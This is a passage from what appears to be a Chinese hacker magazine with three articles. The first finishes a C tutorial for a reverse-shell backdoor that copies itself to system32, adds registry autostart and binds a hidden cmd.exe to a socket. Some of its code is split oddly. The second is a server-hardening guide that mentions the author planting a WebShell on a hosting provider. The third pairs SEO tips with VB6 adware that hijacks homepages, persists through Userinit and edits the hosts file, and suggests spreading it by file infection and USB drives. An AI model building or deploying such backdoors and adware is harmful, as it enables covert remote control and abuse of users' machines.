这里说明一下，GetWindowsDirectory 与 GetSystemWindowsDirectory 有些不同，在实践中发现，如果用户安装的是双系统或者多系统，GetWindowsDirectory 有时会拿到 c:\document and settings\administrator\windows 的路径，所以为了保险起见，建议大家采用 GetSystemWindowsDirectory，至于这里是 GetSystemWindowsDirectoryA 是因为我采用的是 ANSI 编码。

假设我们将程序的副本考至 windows/system32/test.exe，我们通过上面的 API 将 windows 路径放在 buffer 中，下面我们就要把 system32/test.exe 拼接到 buffer 中形成完整的路径。代码如下：

```
c
lstrcat(buffer, "\\system32\\test.exe");

```

程序将自己的副本拷贝至目标路径，除了获得目标路径外还需要知道自己的位置，这个过程用一段代码实现：

```
c
GetModuleFileName(NULL, cmd, MAX_PATH); // 将当前应用程序的全路径放到 cmd 变量中

```

获取路径之后就是文件拷贝，代码：

```
c
CopyFile(cmd, buffer, FALSE); // 将当前的文件拷贝至 c:\windows\system32\test.exe

```

文件拷贝完成后下面要做的就是实现从注册表的自启动，自启动路径为 buffer，代码如下：

```
c
RegOpenKeyEx(HKEY_CURRENT_USER,
    "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
    (DWORD)NULL,
    KEY_ALL_ACCESS,
    &MyKey);

```

到这里，程序的基本操作就完成了，下面要做的是实现网络通信，以及通信与 cmd 的捆绑。

```
c
memset(&si, 0, sizeof(si));
WSAStartup(MAKEWORD(1, 1), &wd); // 初始化 Winsock 服务
p = strtok(lpszCmdLine, " ");
if (lpszCmdLine[0] == '/' || IsCharAlphaNumeric(lpszCmdLine[0])) {
    if (p = strtok(NULL, " ")) {
        lstrcat(buffer, " ");
        lstrcat(buffer, p);
    }
    addr.s_addr = inet_addr(p);
    if (addr.s_addr != INADDR_NONE)
        lstrcpyn(IP, p, 16); // 如果 IP 是正确存在的
}
RegSetValueEx(MyKey, "Microsoft TEST", (DWORD)NULL, REG_SZ, (CONST BYTE*)&buffer, strlen(buffer)); // 设置指定注册表项的值
sock = WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
sin.sin_family = AF_INET; // 网络类型
sin.sin_port = htons(port); // 填充端口号
sin.sin_addr.s_addr = inet_addr(IP); // 填充目标 IP 地址

```

通过上面的基本数据填充以及初始化，剩下的就是反向链接的实现以及循环等待。

```
c
while (connect(sock, (struct sockaddr*)&sin, sizeof(...)))

```

## 后门能够实现我们需要的cmd功能，我们进行一下简单的命令测试。

```
c
(sin)))
Sleep(30000);            // 每30秒连接一次
si.cb = sizeof(si);
si.dwFlags = STARTF_USESHOWWINDOW + STARTF_USESTDHANDLES; // 标示
si.wShowWindow = SW_HIDE; // 隐藏执行cmd程序，防止被发现
si.hStdInput = si.hStdOutput = si.hStdError = (void *)sock;
// si.hStdInput通过socket接收的命令，si.hStdOutput接收cmd输出的结果
CreateProcess(NULL,"cmd.exe",NULL,NULL,TRUE,0,0,NULL,&si,&pi);
// CreateProcess用来创建一个新的进程和它的主线程，这个新进程运行指定的可执行文件，将输入输出信息绑定到cmd。
```

## 四、测试

到这里，我们就完成了一个远程反弹式shell后门的制作，编译完成后运行，我们看一下效果，采用本机测试，本地监听程序为VNC，监听端口为3364设置如图1所示。

运行我们编译好的程序，运行，出现如图2所示的提示。同时在system32下，出现了我们的备份文件test.exe，如图3所示。启动项查看如图4所示，修改注册表成功。

我们输入dir点击“发送上面的信息”，得到反馈信息如图5所示，测试成功。

到此为止，我们的完全手工打造的反弹式后门就完成了，所有后门的原理都这个类似，读者可以在此基础上进行完善并优化，完整的代码以及注释已经打包，如果对有的API不了解，建议读者查看MSDN，或者到网上搜索。

> （文章中所涉及到的代码和程序已收录在光盘中）

# 35 互联网虚拟主机配置揭秘

骨忠亮

只要把服务器接入到了互联网上，就会面临着各种威胁，如何才能把服务器设置的更安全，是每一位网管最为关心的事情；我最近使用的35互联虚拟主机就感觉在安全性上做的很不错。那么该虚拟主机是如何配置的呢？下面就结合我的个人经验来为大家一一揭开，35互联的虚拟主机有着不同的操作系统，本文我介绍的是Windows Server 2003 + Access数据库。

## 一、准备工作

关于计算机的硬件情况我就不多说了，在安装系统前要先给硬盘分区，至于如何分就是个人的习惯了，但要说明一点的是，分区要一次性完成，不要先分成FAT32然后再转换成NTFS，要一次性分成NTFS格式。安装系统时，服务器名以及一些其它参数可以按照个人习惯来设置，在安装过程中选定你需要的系统服务，像DNS、DHCP等如果没有特别需要的话，最好不要安装。安装常用的软件，比如压缩软件、杀毒软件、网络防火墙等，杀毒软件最好不要使用Nod32，因为它会导致网站访问速度变慢，特别是数据库由.mdb改为.asp时，打开网页至少要慢七八秒，最后就是要把系统补丁更新到最新的。

## 二、服务器权限与安全配置

- 1. 删除多余的网络协议

在本地连接的属性中只保留“Internet协议（TCP/IP）”这一项，其它协议全部删除。选中“Internet协议（TCP/IP）”，点击“属性”→“高级”，选择“WINS”→“禁用TCP/IP上的NetBIOS”，如图1。

- 2. 禁止Dump file的产生

Dump文件在系统崩溃和蓝屏的时候是一份很有用的查找问题的资料，然而它也能够为入侵者提供一些敏感信息，比如一些应用程序的密码等。右键单击“我的电脑”→“属性”→“高级”→“启动和故障恢复”→“设置”，把写入调试信息设置为“无”就行了。

- 3. 关闭华医生Dr.Watson

在“开始”→“运行”栏中输入“Drwtsn32”，或者选择“开始”→“程序”→“附件”→“系统工具”→“系统信息”→“工具”→“Dr.Watson”来调出系统中的华医生Dr.Watson，只保留“转储全部线程上下文”选项，否则一旦程序出错，硬盘就会变很久，并占用大量空间。如果以前我们的电脑有过这种情况，那么可以查找user.dmp文件，删除后就可节省出几十MB的空间了。

- 4. 禁止建立空连接，禁止系统自动启动一些服务等

禁止建立空连接，禁止系统自动启动服务器共享，禁止系统自动启动管理共享，防止SYN洪水攻击，禁止响应ICMP路由通告报文，防止ICMP重定向报文的攻击，不支持IGMP协议。由于这些设置都是通过修改注册表来实现的，因此为了操作上的方便，我们可以直接导入445.reg这个注册表文件，至于具体修改的注册表键值大家可以参考445.reg文件，顺序与前面的项目相同。

- 5. 关闭不需要的端口

445端口的关闭也是通过修改注册表来实现，我一并放到了445.reg文件里，对于135端口的关闭，大家请按照以下的操作来进行：在“开始”→“运行”栏中输入“dcomcnfg”调出组件服务，选择“组件服务”下的“计算机”选项，在右边的窗口中右键单击“我的电脑”，选择“属性”，在弹出的“我的电脑属性”对话框中，选择“默认属性”，取消掉“在此计算机上启用分布式COM”前面的勾，如图2。再选择“默认协议”选项，选中“面向连接的TCP/IP”，单击“移除”按钮，最后点击“确定”按钮，设置完成，重新启动后就可以关闭135端口了。

# 主题乐园

图2

- 6、磁盘权限

（1）对于每个硬盘的根目录只保留Administrators组用户为全部权限（也可以选择加入SYSTEM用户），其他用户全部删除，如图3。

图3

（2）进入系统盘，具体的权限设置如下：系统盘\WINDOWS目录只保留Administrators、SYSTEM、User用户，其中Administrators和SYSTEM用户为全部权限，Users用户为默认权限不作修改，其他目录删除掉Everyone用户。系统盘\Documents and Settings目录只给Administrators组用户完全控制权限，由于“Documents and Settings”下的所有目录不会继承前面设置的权限，因此我们要分别进行设置，都只给Administrators用户完全控制权限，而且要一个一个目录的去仔细检查。比如“C:\Documents and Settings\All Users\Documents”目录，我们设置了ALL users目录只有Administrator用户拥有权限，但是再来看一下Documents目录的权限，发现还是有很多用户有权限，所以都要进行单独的设置才行。“C:\Windows\Temp”目录要设置everyone用户为读取和写入权限，否则可能会导致网站无法正常运行或者运行速度很慢。

（3）搜索以下的文件，记住在搜索时要选择高级选项，勾选上“搜索隐藏的文件和文件夹”，我们修改net.exe、tlntsvr.exe、cmd.exe、tstat.exe、regedit.exe、at.exe、attrib.exe、cacls.exe、icacls.exe、format.com、regsvr32.exe、xcopy.exe、wscript.exe、cscript.exe、ftp.exe、telnet.exe、arp.exe、edlin.exe、ping.exe、route.exe、finger.exe、rsh.exe、runonce.exe、syskey.exe的权限，删除所有的用户而只保有Administrators和SYSTEM为所有权限。

- 7、删除存在隐患的目录

删除“C:\WINDOWS\Web\printers”目录，这个目录的存在会造成IIS里加入一个.printers的扩展名，可被溢出攻击。删除“C:\WINDOWS\Help\iisHelp”目录，这是默认IIS错误页面，基本上已经没多少人使用了。删除“C:\WINDOWS\system32\inetsrv\iisadmpwd”目录，这个目录是用来管理IIS密码的，比如一些因密码不同步造成500错误的时候就可以使用OWA或Iisadmpwd来修改同步密码，但在这里可以删除掉，因为我们下面讲到的设置将会杜绝因系统设置而造成的密码不同步问题，如果无法删除的话，我们可以进安全模式后再删除，最后就是删除“c:\inetpub”目录。

- 8、本地安全策略配置

单击“开始”→“程序”→“管理工具”→“本地安全策略”，选择“帐户策略”→“密码策略”，把“密码最短使用期限改成0天（也就是密码不过期，这样就不会造成IIS密码不同步了）。再选择“帐户策略”下的“帐户锁定策略”，把“帐户锁定阈值”设置成5次，“帐户锁定时间”设置成10分钟。选择“本地策略”→“审核策略”，具体的设置情况如图4所示。

图4

我们再来选择“本地策略”→“安全选项”，具体的设置情况如下：

- 交互式登录：不显示上次的用户名
- 交互式登录：不需要按CTRL+ALT+DEL
- 网络访问：不允许SAM帐户的匿名枚举
- 网络访问：不允许SAM帐户和共享的匿名枚举

图5

分别把以上项目设置为“已启用”，重命名来宾帐户，并更改成一个复杂的帐户名，重命名系统管理员帐号，并更改成一个自己使用的帐号（同时还可以建立一个无用户组的Administrator陷阱帐户）。

- 网络访问：可匿名访问的共享
- 网络访问：可匿名访问的命名管道
- 网络访问：可远程访问的注册表路径
- 网络访问：可远程访问的注册表路径和子路径

把以上项目全部删除。

- 9，重命名不安全组件

对于Wscript这些控件，如果不删除的话，可以通过Asp木马来读取管理员帐号和计算机用户，所以我们重命名这些控件，就可以有效防止Asp木马读取出管理员帐号和计算机用户。

在“开始”→“运行”栏中输入“regedit”打开注册表编辑器，分别对“HKEY_CLASSES_ROOT\WScript.Shell”、“HKEY_CLASSES_ROOT\WScript.Shell.1”、“HKEY_CLASSES_ROOT\WScript.Network”、“HKEY_CLASSES_ROOT\WScript.Network.1”进行重命名，重命名的名字自己随意设置。为了更好的防止木马，我们需要将W.Shell组件和Shell.application组件加以卸载，打开“开始”→“运行”，分别输入以下的命令执行就可以了：

```
regsvr32 /u wshom.ocx
regsvr32 /u shell32.dll
```

- 10，禁用不需要的服务

我们直接双击运行DisableSevers.bat，就可以禁用掉那些不需要的服务了，具体禁用了哪些服务，大家可以参考StopServers.bat文件，里面有详细的说明。

# 三、FTP服务器配置

大家都知道，使用了Serv-U FTP的服务器如果设置不当的话，就会存在很大的安全隐患，严重的会被直接控制服务器。35互联的虚拟主机使用的是Windows Server 2003系统自带的FTP，而没有使用Serv-U FTP，那我是怎么判断的呢？大家请看图5，我使用ftp命令连接了35互联的虚拟主机，给出的“220 Microsoft FTP Service”虽然还不足以说明这一点，但加上后面的IIS6.0建立的FTP站点的特殊要求就足以证明这一点了。

在IIS6.0没有发布前，IIS中并没有可以把用户限制在一个FTP站点的特定目录中的好方法，这就经常会出现一种非常糟糕的情况，即拥有写入权限的用户会把FTP站点主目录中的资源搞得一团糟，虽然我们也可以借助“虚拟目录+NTFS权限”相结合的方法来达到具体设置的目的，但终究是比较麻烦。

IIS6.0的发布就及时弥补了这种缺陷，因为使用IIS6.0内置的FTP服务创建一个“用户隔离”模式的FTP站点就可以有效解决上述问题了。用户隔离是一项新增功能，用户隔离模式的FTP站点可以使用户在成功连接FTP服务器后直接进入属于该用户的目录中，并且该用户不能查看或修改其他用户的目录，创建“用户隔离”模式FTP站点的方法如下。

- 1，创建用户账号

我们首先需要在FTP站点所在的Windows Server 2003服务器中为FTP用户创建一些用户帐号，用户可以使用这些帐号来连接FTP站点。因为我们创建的是用户隔离模式，所以需要创建本地帐号。

在系统桌面上右键点击“我的电脑”，选择“管理”，在打开的“计算机管理”窗口中选择“系统工具”下的“本地用户和组”，然后右键点击“用户”，在弹出的快捷菜单中选择“新用户”。在打开的“新用户”设置窗口中，分别输入用户名和密码（本文中我们就创建用户“riic”），因为在服务器上要存放很多站点，所以可以在“描述”里填上站点域名或说明文字来进行区分。取消掉“用户下次登录时须更改密码”选项，并勾选上“用户不能更改密码”和“密码永不过期”这两项，如图6，然后点击“创建”按钮，最后我们还要删除该用户隶属于Users组的权限，要让该用户不隶属于任何组，在后面IIS里也会用到该用户的。

我们再打开下一个“新用户”对话框来继续创建用户，根据需要添加若干个用户，最后创建完毕后就可以点击“关闭”按钮退出了。

# 主题乐园

- 2、规划FTP站点目录结构

为了把每个用户隔离在自己的专用目录中，我们需要事先规划FTP站点的目录结构，也就是为每个用户建立一个文件夹，不过这些文件夹并不是随意建立的，而是要遵循一定的规范，因为创建“用户隔离”模式的FTP站点对文件夹的名称和结构都有一定的要求。首先我们必须在NTFS分区中创建一个文件夹作为FTP站点的主目录（本文中我们就建立“web”文件夹），然后在“web”文件夹下再创建一个名为“LocalUser”（本地用户）的子文件夹，最后在“LocalUser”文件夹下创建若干个与用户帐户相对应的个人文件夹。

提醒一下大家，FTP站点主目录下的子文件夹名称必须为“LocalUser”，并且在其下创建的用户文件夹必须要与相关的用户帐号使用完全相同的名称，否则将无法使用该用户帐号来连接，规划好的FTP站点目录结构大家可以参考一下图7。正是通过这个特殊的要求，再结合我在35主机上放置的WebShell，就是以证明35互联主机的FTP服务器的这种配置方法了，如图8。

- 3、创建“用户隔离”FTP站点

通过创建用户账号和规划FTP站点目录结构，我们的准备工作已经完成，接下来就开始创建“用户隔离”模式的FTP站点了，具体创建步骤如下。

打开“Internet 信息服务（IIS）管理器”，在左边窗口中右键点击“FTP站点”，在弹出的快捷菜单中选择“新建/FTP站点”命令，打开了“FTP站点创建向导”，单击“下一步”，在“FTP站点描述”中输入一些描述性语言（比如“Web-FTP”），并单击“下一步”，就进入到了“IP地址和端口设置”页面，在“输入此FTP站点使用的IP地址”下拉菜单中选择一个用于访问该FTP站点的IP地址（本文中我们选择的IP地址为“192.168.137.5”），端口保持默认的“21”，单击“下一步”按钮，在打开的“FTP用户隔离”页面中点选“隔离用户”单选框，如图9。

单击“下一步”按钮后就打开了“FTP站点主目录”页面，点击“浏览”按钮找到我们事先创建的“Web”文件夹，如图10，并依次点击“下一步”和“确定”按钮，在接下来的“FTP站点访问权限”页面中勾选“写入”复选框，然后依次单击“下一步”和“完成”来完成创建工作。

由于我们前面设置了每个硬盘只保留administrator和system权限。所以要把ftp的文件夹单独指定与文件夹同名的用户的权限，并设置修改、写入权限，如图11。好了，打开浏览器，输入ftp的服务器地址，并输入用户名和密码就可以登录并上传文件了，FTP服务器就此配置完成。

图10

图11

使用过虚拟主机的朋友可能会发现，我们在FTP登录后通常会出现如图12所示的情况，也就是在FTP空间里会有三个文件夹，www为网站目录，logfiles为网站日志，isapi为ISAPI筛选器，但登录我们的FTP空间却是空的，解决的方法很简单，我们在FTP站点的根目录下同样建立以上三个文件夹，对于各个目录功能的具体配置请大家继续往下看。

图12

- 4，FTP用户配额设置

大家都知道，我们通常使用的FTP空间都会有大小限制，那么在服务器上是如何配置的呢？右键点击FTP主目录所在的盘符（比如D盘），选择“属性”（也就是打开本地磁盘的属性对话框），选择“配额”，勾选上“启用配额管理”以及“拒绝将磁盘空间给超过配额限制的用户”，点击“配额项”按钮，打开了“本地磁盘（D:）的配额项”对话框，在对话框中对建立的FTP用户进行相应的配额设置就行了，如图13。

图13

# 四，IIS的配置

这里就以配置我自己的网站为例来为大家讲解IIS的配置过程，大家注意：停用IIS默认站点，切勿删除了，删除后有可能会造成IIS的不稳定。

IIS6有一个非常不方便的东西，就是它限制了在线上传不得大于200K，要如何修改呢？首先我们停用IIS服务，选择“开始”→“程序”→“管理工具”→“服务”→“iis admin service”→“停用”，使用记事本打开“C:\windows\system32\inetsrv\metabase.xml”，找到ASPMaxRequestEntityAllowed处，默认为204800，也就是204800字节（200K），把它修改为想要的数字，比如2048000（也就是2M），然后保存，重启IIS服务就行了。

图14

# 主题乐园

图15

图17

打开“IIS 管理器”，选择“网站”，点击右键并选择“新建”→“网站”。为区分服务器上的网站，可以在网站创建向导中输入网站描述，点击“下一步”，在“此网站的主机头”处输入网站域名……网站的主目录可设置在 www 下，访问权限建议选择“读取、运行脚本（如 ASP）”。

把 `.mdb` 数据库文件改为 `.asp` 后，数据库将不会被直接下载。继续在“选项”“调试”等处进行配置，启用父目录、设置文本错误消息等，以减少暴露系统错误信息的风险。

配置 IIS 自定义错误，可将 HTTP 错误消息设置为默认值，或指定自定义 HTML 错误页。并可在“目录安全性”中设置身份验证与访问控制，随后在“WEB 服务扩展”中启用“Active Server Pages”“ASP.NET v2.0.50727”等。

配置网站属性时，可设置日志目录与日志计划；在“主目录”→“配置”→“应用程序扩展”→“映射”中保留 asp/asa/aspx 并单独添加 mdb 映射，以避免数据库文件被下载。

图16

## 五、应用程序池配置

出于安全与稳定性考虑，应为各网站分配相应的应用程序池。网站数量少时可一站一池，数量较多时可分组共享应用程序池。

可先创建应用程序池安全账户并加入 IIS_WPG 组，设置其对网站目录的读取权限。随后在 IIS 管理控制台中“应用程序池”→“新建”→“应用程序池”，输入池 ID，并在属性中继续配置“标识”。在应用程序池标识处选择“配置”，并点击其右边的“浏览”按钮，查找到 iiswk_riic 用户，确认并输入 iiswk_riic 用户的密码和确认密码，如图20。将网站分配到相应的应用程序池：右键单击打开 www.riic.cn 网站属性，切换到“主目录”标签，在应用程序池的下拉菜单处选择 riic.cn 应用程序池，如图21。

网站运行一段时间后，内存及 CPU 资源的占用不能及时释放，从而会导致服务器响应速度变慢。应用程序池默认为 29 小时进行进程回收，时间比较长，我们需要及时回收这些资源以更好地发挥性能。在应用程序池属性的“回收”标签中设置为每天夜间 3 点回收进程，以及内存占用多少兆时进行进程回收。我的设置如图22所示。为什么要选择夜间回收进程呢？这是因为回收进程时会占用 CPU，夜间访问量较少，所以在夜间进行不会影响访问速度。

## 六、3389 终端安全配置

为了方便虚拟主机的管理，通常大家都会安装远程管理软件，比如 PcAnywhere 等，但配置不当的话就会给黑客留下后门。其实使用 Windows Server 2003 自带的终端服务，经过细心配置也可以做到很安全，而且在速度和稳定性上也都要强于第三方软件。

### 1、修改终端服务的端口

修改注册表  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`  
以及  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tdstcp`  
两个分支下的 `PortNumber` 键值，更改成我们想要的端口。改好后，客户端连接可以使用“IP:端口号”的形式，比如“192.168.137.5:1218”。

### 2、隐藏上次登录的用户名

这可以防止恶意破解 3389 管理员用户密码。打开注册表找到  
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`，  
把 `DontDisplayLastUserName` 的值改为 1 就可以了。

### 3、设置指定用户才可以登录终端

为了安全，没有必要让服务器上的所有用户都可以登录。我们可以指定一个管理账户允许其登录，比如用户 riic。这个用户只要求隶属于 Administrators 组。如果还有其他用户组，后面的设置可能会造成远程不能登录等问题。

打开“管理工具”→“终端服务配置”→“连接”，再选择右边“RDP-TCP”的属性，找到“权限”选项，删除 administrators 组，然后再添加我们允许的 riic 这个用户，如图23。设置除 System 以外的其他用户组一律不允许登录，其他用户组全部勾选“拒绝”。

### 4、启动组策略中的登录项审核机制

“终端服务”默认没有日志记录，需要手动设置。开启方法如下：在 RDP-TCP 的属性中，找到“权限”选项，点击“高级”，里边有个“审核”，添加 Everyone，然后选择需要记录的事件。一般我们需要审核以下几个事件，如图24所示。

### 5、制作 3389 事件查看器以查看登录的 IP 地址情况

首先创建一个名称为 `3389log.bat` 的批处理文件，其内容如下：

```bat
@echo off
date /t >>3389log.txt
time /t >>3389log.txt
netstat -n -p tcp | find ":3389" >>3389log.txt
注意：这里冒号后面的 3389 应该是你更改后的端口，我的就是 1218。
start Explorer
```

第一、二行代码用于记录用户登录的日期和时间，第三行代码用于记录终端用户的 IP 地址。`3389log.bat` 首次运行会自动产生一个 `3389log.txt` 文本文件，之后每次运行都会追加登录的 IP 地址情况。

打开系统管理工具中的“终端服务器配置”，进入默认 RDP-Tcp 属性中，切换到“环境”标签，启用“用户登录时启用下列程序”，在“程序路径和文件名”处填写 `c:\3389log.bat`，并在“起始于”处填写 `c:\`，如图25。设置完成后再隐藏 `3389log.bat` 和 `3389log.txt` 文件。

### 6、利用组策略的 IP 安全策略限制 3389 端口访问以及屏蔽不需要的端口

虽然我们把 3389 的端口更改了，但出于安全性考虑，可以指定我们经常使用的 IP 才可以登录到 3389，其他外网地址一律不允许访问此端口。具体配置如下：

在“开始”→“运行”栏中输入 `gpedit.msc` 打开组策略，选择“计算机配置”→“Windows 设置”→“安全设置”→“IP 安全策略，在本地计算机”。在右侧窗口中点击右键，选择“创建 IP 安全策略”，如图26。点击“下一步”，把策略命名为“允许指定的 IP 访问3389”并点击“下一步”，中间会有一个警告，我们选择“是”，直至完成。

双击“允许指定的 IP 访问3389”策略，取消“使用添加向导”前的勾并单击“添加”按钮，如图27。再一次选择“添加”按钮，在“名称”里命名为“拒绝任何 IP 访问服务器 3389 端口”，并取消“使用添加向导”，如图28。再次单击“添加”按钮，在“IP 筛选器属性”的“源地址”处选择“任何 IP 地址”，“目标地址”选择“我的 IP 地址”，如图29。……在“IP 筛选器属性”的“源地址”处选择“一个特定的 IP 地址”或者“一个特定的 IP 子网”，“目标地址”选择“我的 IP 地址”，如图34。

点击“协议”标签，在协议类型处选择 TCP，在“设置 IP 协议端口”里选择“到此端口”，端口值设置为更改后的 3389 端口，我这里为 1218，如图30，然后单击两次“确定”。选中“拒绝任何 IP 访问 3389 端口”，并转到“筛选器操作”标签，取消“使用添加向导”并点击“添加”按钮，在“新筛选器操作属性”的“安全措施”里选择“阻止”，如图31，并在“常规”选项卡的名称里输入“阻止网络访问”，单击“确定”。

确保在“筛选器操作”中选择了“阻止网络访问”，如图32，然后单击“确定”，再次双击“允许指定的 IP 访问3389”策略。

完成后在“规则”中选择“允许指定 IP 访问本机 3389 端口”，并转到“筛选器操作”标签，在“筛选器操作”中直接选择“许可”，最后设置完成，如图35。在 IP 安全策略中，右键单击刚才建立的“允许指定 IP 访问3389”策略，选择“所有任务”，并选中“指派”，然后刷新组策略。现在使用正确的 IP 可以连接成功，使用未指定的 IP 则不会成功。特定的 IP 地址可以多次添加，利用这种方法同样可以阻止一些不需要对外开放的端口。

到这里，整个虚拟主机的配置过程就全部完成了。我们可以直接把 WebShell 上传上去，WebShell 已经对服务器不构成什么威胁，最多也只是可以操作 WebShell 所在的网站而已。希望本文对大家能有所帮助，在安全方面或许还有没考虑到的地方，还请大家批评指正，互相学习。

（文章中涉及到的 445.reg、DisableServers.bat，已经收录在了光盘中）

# 搜马加鞭

## 插件助我 SEO

宽带拨号

最近在网上看到了一个新闻“百度降低淘宝客权重”。从概念上讲，淘宝客就是淘宝广告营销规则 API，通俗点讲就是类似于百度推广和谷歌广告。但是相对于这两个靠点击率的游戏规则，淘宝客更趋向于客户购买商品，站长获得佣金红利，而网络上更是流传着创业淘宝客月收四万的信息。随着各 IT 巨头进军网络商城，比如“百度有啊”等，目前百度收录就大大降低了页面包含淘宝客 API 的权重，甚至是全页面淘宝客链接直接秒杀，这也致使淘宝客面临大幅度萎缩，如图1。

说到淘宝客就不能不提网络营销。随着国内网民人数的急剧膨胀，未来的网络营销更会有爆发式推进作用。就目前而言，一个是搜索引擎 SEO 优化，另一个就是编写广告推广插件，本文将会着重介绍这两个方面的技巧。什么是 SEO 呢？SEO 是英文 Search Engine Optimization 的缩写，中文意思就是搜索引擎优化。利用合理的网页设计技术，使网站更贴切符合搜索引擎规则，从而提高网站排名。为什么要提高排名呢？因为用户在对关键字进行查询时，获取到的结果往往是搜索引擎前排信息，而靠后的信息往往会沉没在海量信息中。

既然有插件了，比如“QQ 尾巴”，篡改用户日志、编辑软件信息等，在 QQ 交流群推广广告。比较出名的想必就是那个铁观音广告的 QQ 尾巴消息了。

“稳定压倒一切！”如果大家想深入发展自己的小站，那么首先必须要有一个稳定的虚拟主机或者服务器。搜索引擎会派出一个蜘蛛爬虫来调研网站结构，然后根据收集到的关键字信息上报给搜索引擎。如果你的小站服务器很不稳定，那么再好的 SEO 技巧都很难提高收录数量。其次是你需要一个简短的顶级域名，权重较高的是 `.com` 和 `.cn`。

蜘蛛爬虫首先调研网站首页部分。需要注意的是，蜘蛛只爬行 HTML 静态页提取关键字信息，诸如 ASP、PHP 等动态脚本文件都无法有效识别。接下来蜘蛛会重点调研网页标签部分 `<title></title>`，关键词也可以是短句，并与 KeyWords、Description 配合。关键词切记不能盲目堆砌，最好具备一定主题性与连贯性。

关键词可以说是整个 SEO 的成败。有序的网页结构则是基础，站点应该有一个相对简洁的顺序结构。可通过精简代码、增加内部链接、制作导航页等方式提升友好度。此外还有外部链接与友情链接策略，但也并非越多越好，仍应以内容质量和原创为核心。

目前每天新建的站点都特别多，蜘蛛不可能保证每个小站都会调研取证。针对这种情况，搜索引擎都提供小站收录信息提交，比如百度与谷歌的提交入口。要检测收录情况，可以在搜索引擎中输入 `site:` 加站点网址查询，也可以使用站长工具进行综合 SEO 查询。

我要告诉你的是，SEO 不是技术，而是技巧。只要遵循一定原则，保证网站原创和质量，网站排名自然会提高。下面简单介绍编写广告插件：应包含弹出广告网页、加入收藏夹、桌面广告快捷方式、修改 IE 主页、智能判断等功能，配合 PE 感染、QQ 尾巴、U 盘传播、挂马等，可在短期内达到较强的流氓宣传效果。

我们选择使用 VB6 来编写。假设广告插件自启动后，应先弹出广告页。为使网页全屏显示，应使用功能更强大的 `ShellExecute`，并声明最大化显示常量 `SW_SHOWMAXIMIZED`。

```vb
' ShellExecute API 声明
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (
    ByVal hwnd As Long,
    ByVal lpOperation As String,
    ByVal lpFile As String,
    ByVal lpParameters As String,
    ByVal lpDirectory As String,
    ByVal nShowCmd As Long
) As Long

Private Sub Form_Load()
    Dim URL
    URL = ShellExecute(0, "", "http://www.baidu.com", "", "", SW_SHOWMAXIMIZED)
End Sub
```

另外我认为弹出一次广告网页就可以了，如果弹出过多网页，反而会给用户带来糟糕体验。可添加 `Timer` 计时器控件，修改 `Interval` 属性控制弹出频率，并且表示遗憾。

接下来我们的广告插件会尝试自动在桌面生成快捷方式链接广告和收藏夹链接广告，具体方法是创建一个 `WshShell` 对象，然后尝试 `SpecialFolders("Desktop")` 查找系统特殊文件夹，桌面就是“Desktop”，收藏夹就是“Favorites”。

弹得健康。我的思路是使用 `Timer1` 计时器控件监控全局，然后使用 `FindWindow API` 函数查找当前窗口，如果发现用户 IE 浏览器正在浏览与弹出广告相同话题，那么就弹出广告来。

```vb
Sub Desktop() ' 添加到桌面快捷方式
Dim WshShell As Object, oUrlLink As Object
Dim strDesktop As String
Set WshShell = CreateObject("WScript.Shell")
strDesktop = WshShell.SpecialFolders("Desktop")
Set oUrlLink = WshShell.CreateShortcut(strDesktop & "\广告.url")
oUrlLink.TargetPath = "http://www.baidu.com"
oUrlLink.Save
Set oUrlLink = Nothing
Set WshShell = Nothing
End Sub

Sub EFavorites() ' 收藏夹
Dim WshShell As Object, oUrlLink As Object
Dim strFavorites As String
Set WshShell = CreateObject("WScript.Shell")
strFavorites = WshShell.SpecialFolders("Favorites")
Set oUrlLink = WshShell.CreateShortcut(strFavorites & "\广告.url")
oUrlLink.TargetPath = "http://www.baidu.com"
oUrlLink.Save
Set oUrlLink = Nothing
Set WshShell = Nothing
End Sub
```

```vb
' FindWindow API 声明
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long

Private Sub Timer1_Timer()
Dim TempWnd As Long
Dim URL
TempWnd = FindWindow(vbNullString, "百度搜索_(广告) - Windows Internet Explorer")
If TempWnd Then
    URL = ShellExecute(0, "", "http://www.baidu.com", "", "", SW_SHOWMAXIMIZED)
End If
End Sub
```

需要注意的是，“百度搜索_(广告) - Windows Internet Explorer”这句必须和实际浏览情况相同，否则无法弹出广告网页。另外这里是模拟 IE 浏览器环境，如果你想添加第三方浏览器，可以使用 SPY++ 来获取句柄。

下面再介绍广告插件修改 IE 主页功能。首页注册表位置是  
`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page`，  
修改 `Start Page` 数值数据为你当前网站即可。还是创建一个 `wscript` 对象来操作注册表，修改百度为自己的网站地址。

```vb
Private Sub Form_Load()
Set r = CreateObject("wscript.shell")
r.regwrite "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Internet Explorer\Main\Start Page", "http://www.baidu.com"
End Sub
```

编写的子过程在 `Form_Load` 调用即可，这样惹人烦的广告又壮大了。当然我们还必须要深入贯彻落实“科学发展、以人为本”的重要精神，使广告插件更具有智能化，不再是鲁莽地狂弹广告，而是更具用户体验的广告，让广告弹得舒心。

最后要想使这个广告插件发挥功能，则启动是前提，可以配合当前比较流行的 Userinit 启动法。

并管理启动顺序，并且创建 svchost 进程，具有一定的隐蔽性。

```vb
Private Sub Form_Load()

SaveString HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon", "Userinit", "C:\WINDOWS\system32\userinit.exe," & App.Path & "\\" & App.EXEName & ".exe"

End Sub
```

```vb
f = Open "C:\WINDOWS\system32\drivers\etc" & "\\hosts" For Append As #1

dnsurl = dnsurl + "127.0.0.1    www.trojan.cn" + vbCrLf
' 本机IP解析到我小站
Print #1, dnsurl

End Sub
```

